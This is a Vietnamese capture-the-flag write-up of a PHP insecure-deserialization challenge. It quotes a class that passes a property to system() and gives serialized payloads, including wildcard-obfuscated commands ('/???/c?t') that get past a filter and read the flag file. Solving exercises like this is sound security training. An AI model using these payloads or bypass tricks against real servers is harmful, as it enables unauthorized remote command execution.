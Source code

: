 Trước hết, khi nhìn vào source code của chương trình, ta thấy chương trình nhận vào một biến $_GET['payload'], challenge này thuộc dạng khai thác lỗ hổng Deserialize
nên ta sẽ truyền payload vào trong biến GET trên URL.

Nguyên văn class ban đầu của chương trình:

```PHP
class exploit_me
{
    public $cmd;
    public function __destruct(){
        system($this->cmd);
    }
}
```

Ta thấy để khai thác được lỗ hổng này thì ta cần truyền vào một biến cmd là câu lệnh sẽ được chạy trong hàm system của PHP

Nếu vậy thì đối với challenge này, ta sẽ cần đọc file flag.txt (dự đoán) đang nằm ở đâu đó trong hệ thống file của máy chủ chạy trang web này

Ta sẽ thử với payload như sau:

```
O:10:"exploit_me":1:{s:3:"cmd";s:2:"ls";}
```
Ta thấy đối với payload này, trang web không trả về kết quả nào, do trang web và hệ thống host đã có cơ chế chống thực thi trong webshell

Để bypass trường hợp này, ta cần sử dụng các ký tự đặc biệt cũng như các payload đặc biệt.

Ta sẽ thực hiện list tất cả các file nằm ở thư mục / (root) của hệ thống bằng payload:

```
O:10:%22exploit_me%22:1:%7Bs:3:%22cmd%22;s:10:%22/???/d?r%20/%22;%7D
```

Như vậy ta thấy hệ thống file được hiển thị ra, ta cần nội dung file ```a8749209e3d652e_flag```, do đó ta sẽ đổi payload sang:

```
O:10:"exploit_me":1:{s:3:"cmd";s:30:"/???/c?t /a8749209e3d652e_flag";}
```



